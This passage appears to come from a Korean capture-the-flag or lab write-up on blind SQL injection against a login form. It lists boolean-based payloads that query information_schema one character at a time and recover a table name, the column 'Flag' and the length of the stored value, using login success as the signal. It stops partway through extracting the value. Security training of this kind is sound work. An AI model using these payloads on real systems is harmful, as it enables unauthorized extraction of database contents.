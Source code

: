 ' or ascii(substr((select table_name from information_schema.tables where table_schema='WebTest' limit 0,1),5,1)) = 75 # -> K



=>  Kh7fK



#### Column 

1. 먼저 글자수를 알아야한다.

' or ascii(substr((select column_name from information_schema.columns where table_name='Kh7fK' limit 0,1),1,1)) = 0 # 

-> 로그인 실패

' or ascii(substr((select column_name from information_schema.columns where table_name='Kh7fK' limit 0,1),2,1)) = 0 # 

-> 로그인 실패

.

.

.

' or ascii(substr((select column_name from information_schema.columns where table_name='Kh7fK' limit 0,1),5,1)) = 0 # 

-> 로그인 성공 -> 컬럼명은 4글자구나

=> 4글자



2. 이름을 알아보자

' or ascii(substr((select column_name from information_schema.columns where table_name='Kh7fK' limit 0,1),1,1)) = 70 # -> F 

' or ascii(substr((select column_name from information_schema.columns where table_name='Kh7fK' limit 0,1),2,1)) = 108 # -> l

' or ascii(substr((select column_name from information_schema.columns where table_name='Kh7fK' limit 0,1),3,1)) = 97 # -> a

' or ascii(substr((select column_name from information_schema.columns where table_name='Kh7fK' limit 0,1),4,1)) = 103 # -> g



=> Flag 



#### Value 

1. 몇글자인지 알아보기

' or ascii(substr((select Flag from Kh7fK limit 0,1),0,1)) = 0 # -> 로그인 실패

' or ascii(substr((select Flag from Kh7fK limit 0,1),1,1)) = 0 # -> 로그인 실패
